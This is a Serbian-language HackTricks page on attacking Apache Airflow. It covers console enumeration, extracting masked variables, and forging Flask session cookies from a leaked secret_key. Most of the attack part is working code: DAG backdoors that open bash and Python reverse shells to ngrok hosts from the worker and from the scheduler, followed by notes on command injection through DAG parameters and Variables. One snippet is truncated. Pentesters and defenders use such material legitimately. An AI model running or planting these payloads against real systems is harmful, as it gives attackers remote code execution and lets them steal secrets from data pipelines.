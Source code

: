 # Bezbednost Apache Airflow-a

<details>

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS-a:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Obuka AWS Crveni Tim Ekspert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Obuka GCP Crveni Tim Ekspert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Osnovne informacije

[**Apache Airflow**](https://airflow.apache.org) služi kao platforma za **orkestraciju i zakazivanje data pipelina ili radnih tokova**. Pojam "orkestracija" u kontekstu data pipelina označava proces organizovanja, koordinacije i upravljanja kompleksnim data radnim tokovima koji potiču iz različitih izvora. Osnovna svrha ovih orkestriranih data pipelina je da obezbede obrađene i upotrebljive skupove podataka. Ovi skupovi podataka se široko koriste od strane raznih aplikacija, uključujući, ali ne ograničavajući se na alate za poslovnu inteligenciju, modele za nauku o podacima i mašinsko učenje, koji su osnovni za funkcionisanje aplikacija velikih podataka.

U osnovi, Apache Airflow će vam omogućiti da **zakazujete izvršavanje koda kada se nešto** (događaj, cron) **desi**.

## Lokalni Lab

### Docker-Compose

Možete koristiti **docker-compose konfiguracioni fajl sa** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) da pokrenete kompletan apache airflow docker okruženje. (Ako koristite MacOS, obavezno dodelite barem 6GB RAM-a docker virtuelnoj mašini).

### Minikube

Jedan jednostavan način da **pokrenete apache airflow** je da ga pokrenete **sa minikube-om**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Konfiguracija Airflow-a

Airflow može čuvati **osetljive informacije** u svojoj konfiguraciji ili možete pronaći slabe konfiguracije:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Pre nego što počnete napadati Airflow, trebalo bi da razumete **kako dozvole funkcionišu**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Napadi

### Enumeracija Web Konzole

Ako imate **pristup web konzoli**, možda ćete moći da pristupite nekim ili svim sledećim informacijama:

* **Promenljive** (Ovde se možda čuvaju prilagođene osetljive informacije)
* **Konekcije** (Ovde se možda čuvaju prilagođene osetljive informacije)
* Pristupite im na `http://<airflow>/connection/list/`
* [**Konfiguracija**](./#airflow-configuration) (Osetljive informacije poput **`secret_key`** i lozinke mogu biti ovde sačuvane)
* Lista **korisnika i uloga**
* **Kod svakog DAG-a** (koji može sadržati zanimljive informacije)

### Dobijanje Vrednosti Promenljivih

Promenljive se mogu čuvati u Airflow-u tako da **DAG-ovi** mogu **pristupiti** njihovim vrednostima. Slično je tajnama drugih platformi. Ako imate **dovoljno dozvola**, možete im pristupiti u GUI-u na `http://<airflow>/variable/list/`.\
Airflow će podrazumevano prikazati vrednost promenljive u GUI-u, međutim, prema [**ovome**](https://marclamberti.com/blog/variables-with-apache-airflow/), moguće je postaviti **listu promenljivih** čija će **vrednost** biti prikazana kao **zvezdice** u **GUI-u**.

![](<../../.gitbook/assets/image (164).png>)

Međutim, ove **vrednosti** i dalje mogu biti **dobijene** putem **CLI**-ja (morate imati pristup bazi podataka), **proizvoljno izvršavanje DAG-a**, **API** pristupanje tački promenljivih (API mora biti aktiviran) i **čak sam GUI!**\
Da biste pristupili tim vrednostima iz GUI-a, jednostavno **izaberite promenljive** do kojih želite da pristupite i **kliknite na Akcije -> Izvoz**.\
Još jedan način je izvršiti **bruteforce** na **skrivenoj vrednosti** koristeći **pretragu filtriranja** dok je ne dobijete:

![](<../../.gitbook/assets/image (152).png>)

### Eskalacija Privilegija

Ako je konfiguracija **`expose_config`** postavljena na **True**, od **korisničke uloge** i **naniže** mogu **čitati** **konfiguraciju na webu**. U ovoj konfiguraciji, **`secret_key`** se pojavljuje, što znači da bilo koji korisnik sa ovim validnim ključem može **napraviti svoj potpisani kolačić da se predstavi kao bilo koji drugi korisnički nalog**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG Povratna vrata (RCE u Airflow radniku)

Ako imate **pristup za pisanje** na mestu gde su **DAG-ovi sačuvani**, možete jednostavno **napraviti jedan** koji će vam poslati **povratnu ljusku**.\
Imajte na umu da će se ova povratna ljuska izvršiti unutar **kontejnera za Airflow radnika**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG Povratna vrata (RCE u Airflow planeru)

Ako postavite nešto da se **izvrši u korenu koda**, u trenutku pisanja ovog teksta, to će biti **izvršeno od strane planera** nakon nekoliko sekundi od postavljanja u fasciklu DAG-a.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Kreiranje DAG-a

Ukoliko uspete da **kompromitujete mašinu unutar DAG klastera**, možete kreirati nove **DAG skripte** u `dags/` folderu i one će biti **replikovane na ostalim mašinama** unutar DAG klastera.

### Umetanje Koda u DAG

Kada izvršite DAG iz GUI-ja, možete **proslediti argumente**.\
Stoga, ukoliko DAG nije pravilno napisan, može biti **ranjiv na Umetanje Komandi.**\
To se desilo u ovom CVE-u: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Sve što treba da znate da biste **počeli da tražite umetanja komandi u DAG-ovima** jeste da se **parametri** **pristupaju** kôdom **`dag_run.conf.get("ime_parametra")`**.

Osim toga, ista ranjivost može se pojaviti i sa **promenljivima** (imajte na umu da sa dovoljno privilegija možete **kontrolisati vrednost promenljivih** u GUI-ju). Promenljive se **pristupaju sa**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Ako se na primer koriste unutar bash komande, moguće je izvršiti ubacivanje komande.

<details>

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS-a:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
